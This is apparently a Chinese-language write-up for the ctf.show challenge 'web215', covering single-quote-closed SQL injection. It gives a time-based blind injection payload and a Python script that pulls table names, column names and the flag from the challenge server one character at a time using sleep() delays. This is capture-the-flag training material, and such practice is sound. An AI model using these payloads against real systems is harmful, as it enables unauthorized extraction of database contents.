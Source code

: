 ## web215~单引号闭合

> ```
> //用了单引号
> ```

payload:

```
POST:
debug=1&ip=1' or if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>1,sleep(5),0) and '1'='1
```

脚本：

```python
# @Author: yanmie

import requests

url = "http://b8e578e0-8b1d-4e02-a389-41a12277e5e8.chall.ctf.show/api/"

# payload = "1' or if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{},1))>{},sleep(5),0) and '1'='1"
# 得到 ctfshow_flagxc,ctfshow_info
payload = "1' or if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagxc'),{},1))>{},sleep(5),0) and '1'='1"
# 得到 id,flagaa,info
payload = "1' or if(ascii(substr((select group_concat(flagaa) from ctfshow_flagxc),{},1))>{},sleep(5),0) and '1'='1"
# 得到 flag

i = 0
result = ""

while True:
    i += 1
    head = 0
    tail =127
    while head<tail:
        mid = (head+tail)//2
        data = {
            "debug" : 1,
            "ip" : payload.format(i,mid)
        }
        try:
            response = requests.post(url=url,data=data,timeout=2)
            # print(head,tail,mid)
            tail = mid
        except Exception as e:
            head = mid+1
    if head == 0:
        break
    result += chr(head)
    print(result.lower())

```
